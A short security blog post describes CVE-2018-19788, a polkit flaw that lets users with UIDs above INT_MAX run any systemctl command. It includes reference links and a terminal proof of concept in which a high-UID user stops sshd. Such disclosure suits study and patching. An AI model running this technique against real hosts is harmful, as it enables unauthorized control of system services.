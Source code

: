 ```yaml
---
layout: post
title: Critical vulnerability on policykit of systemd
category: security
description: unprivileged users with UID > INT_MAX can successfully execute any systemctl command
---
```


**[CVE-2018-19788]**: A flaw was found in PolicyKit (aka `polkit 0.115`) that allows a user with a uid greater than `INT_MAX` to successfully execute any `systemctl` command.
* [https://github.com/systemd/systemd/issues/11026](https://github.com/systemd/systemd/issues/11026)
* [https://github.com/freedesktop/polkit/blob/8c1bc8a/src/programs/pkttyagent.c#L156](https://github.com/freedesktop/polkit/blob/8c1bc8a/src/programs/pkttyagent.c#L156)
* [https://gitlab.freedesktop.org/polkit/polkit/issues/74](https://gitlab.freedesktop.org/polkit/polkit/issues/74)

Find out more about CVE-2018-19788 from the [MITRE CVE](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19788) dictionary and [NIST NVD](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2018-19788)

```
root@ahihi:~# useradd -u 4000000000 wtf
root@ahihi:~# su - wtf
No directory, logging in with HOME=/

$ whoami
wtf
$ id
uid=4000000000(wtf) gid=1002(wtf) groups=1002(wtf)

$ systemctl stop sshd.service

(process:22860): GLib-GObject-WARNING **: value "-294967296" of type 'gint' is invalid or out of range for property 'uid' of type 'gint'
**
ERROR:pkttyagent.c:175:main: assertion failed: (polkit_unix_process_get_uid (POLKIT_UNIX_PROCESS (subject)) >= 0)

root@ahihi:~# systemctl status sshd.service
...
Dec 05 15:38:39 ahihi systemd[1]: Stopping OpenBSD Secure Shell server...
Dec 05 15:38:39 ahihi systemd[1]: Stopped OpenBSD Secure Shell server.
```

<!--description-->
